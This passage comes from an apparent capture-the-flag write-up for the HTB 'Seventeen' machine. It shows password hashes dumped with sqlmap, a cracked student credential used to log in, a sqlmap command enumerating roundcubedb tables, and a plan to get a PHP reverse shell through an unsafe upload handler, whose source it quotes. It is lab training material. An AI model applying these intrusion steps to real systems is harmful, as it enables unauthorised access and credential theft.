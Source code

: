 We want to match the field that is on the login page:

```bash
stud_no:password

12345:1a40620f9a4ed6cb8d81a1d365559233
23347:abb635c915b0cc296e071e8d76e9060c
31234:a2afa567b1efdb42d8966353337d9024 (autodestruction)
43347:a1428092eb55781de5eb4fd5e2ceb835
```

sqlmap already decoded student 3. Let’s try to login to sfms with that credential:

```bash
31234:autodestruction
```

![image.png]({{ site.baseurl }}/assets/seventeen//image%207.png)

After downloading the invoice, we find a new subdomain:

```bash
http://mastermailer.seventeen.htb/
```

![image.png]({{ site.baseurl }}/assets/seventeen//image%208.png)

Let’s also add that to /etc/hosts file and visit the URL:

![image.png]({{ site.baseurl }}/assets/seventeen//image%209.png)

Think back to all the dbs, we have one more non-default which is roundcubedb. The logo looks like that, let’s see what tables exist:

```bash
sqlmap -r req.txt --batch -D roundcubedb --tables
```

Nothing useful was found. At this point there are multiple ways of getting a foothold. 

Option 1 - Bypass file upload restrictions and upload malicious php code to get reverse shell.

Option 2 - Exploiting roundcube 1.4.2

### Option 1:

Let’s try option 1 first. Back on the SFMS, we have a function to upload files:

![image.png]({{ site.baseurl }}/assets/seventeen//image%207.png)

We can find the source code for this site by searching up School File management System source code 2019. After downloading, the file that is most likely the function that deals with saving file, is save_file.php:

```bash
<?php
        require_once 'admin/conn.php';

        if(ISSET($_POST['save'])){
                $stud_no = $_POST['stud_no'];
                $file_name = $_FILES['file']['name'];
                $file_type = $_FILES['file']['type'];
                $file_temp = $_FILES['file']['tmp_name'];
                $location = "files/".$stud_no."/".$file_name;
                $date = date("Y-m-d, h:i A", strtotime("+8 HOURS"));
                if(!file_exists("files/".$stud_no)){
                        mkdir("files/".$stud_no);
                }

                if(move_uploaded_file($file_temp, $location)){
```